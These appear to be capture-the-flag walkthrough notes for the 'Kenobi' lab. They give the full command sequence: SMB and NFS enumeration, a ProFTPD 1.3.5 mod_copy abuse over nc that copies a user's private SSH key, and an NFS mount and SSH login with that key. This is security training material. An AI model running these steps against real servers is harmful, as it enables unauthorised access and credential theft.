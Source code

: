 # Kenobi
## Samba 
Implements SMB for Linux

```bash
nmap -p 445 --script=smb-enum-users.nse,smb-enum-shares.nse $IP
```

grab log.txt
```bash
smbget -R smb://<ip>/anonymous
```

A user `kenobi` has generated a key pair and started a ProFTP server.

## RPCBind
Network file system on port 111 exposing /var

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

## ProFTPD
1.3.5 is vulnerable to mod_copy

```bash
 $ searchsploit proftpd | grep 1.3.5          
```
> ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)               | linux/remote/37262.rb
> ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                     | linux/remote/36803.py
> ProFTPd 1.3.5 - File Copy                                               | linux/remote/36742.txt

CPFR/CPTO kenobi id_rsa to /var/tmp
```bash
nc $IP 21
CPFR /home/kenobi/.ssh/id_rsa
CPTO /var/tmp/id_rsa
```

## Network Share
```bash
sudo mount $IP:/var /mnt/kenobinfs
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```
